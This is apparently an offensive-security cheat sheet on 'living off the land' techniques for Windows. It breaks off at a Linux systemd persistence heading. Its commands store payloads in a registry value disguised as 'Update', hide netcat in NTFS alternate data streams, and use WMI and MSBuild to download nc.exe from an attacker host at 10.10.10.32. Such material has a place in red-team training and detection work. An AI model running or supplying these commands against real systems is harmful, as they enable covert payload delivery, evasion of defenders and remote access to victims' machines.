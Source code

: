 ## Advanced Living off The Land Techniques

### Windows Registry as Storage

**Store Data in Registry:**
```cmd
# Store base64 encoded file in registry
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion" /v "Update" /t REG_SZ /d "base64_encoded_data"

# Retrieve and decode
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion" /v "Update" | findstr "Update" | certutil -decode - decoded_file.exe
```

### Alternate Data Streams (ADS)

**Hide Files in ADS:**
```cmd
# Store file in ADS
type nc.exe > legitimate_file.txt:nc.exe

# Retrieve file from ADS
expand legitimate_file.txt:nc.exe nc_recovered.exe
```

### WMI for File Transfer

**Download via WMI:**
```powershell
# Create WMI object for HTTP request
$wmi = [WMIClass]"Win32_Process"
$wmi.Create("powershell.exe -c `"(New-Object Net.WebClient).DownloadFile('http://10.10.10.32:8000/nc.exe','C:\temp\nc.exe')`"")
```

### MSBuild for Execution

**Download and Execute via MSBuild:**
```xml
<!-- Save as download.xml -->
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Download">
    <Exec Command="powershell.exe -c (New-Object Net.WebClient).DownloadFile('http://10.10.10.32:8000/nc.exe','C:\temp\nc.exe')" />
  </Target>
</Project>
```

```cmd
msbuild.exe download.xml
```

### Linux Systemd for Persistence
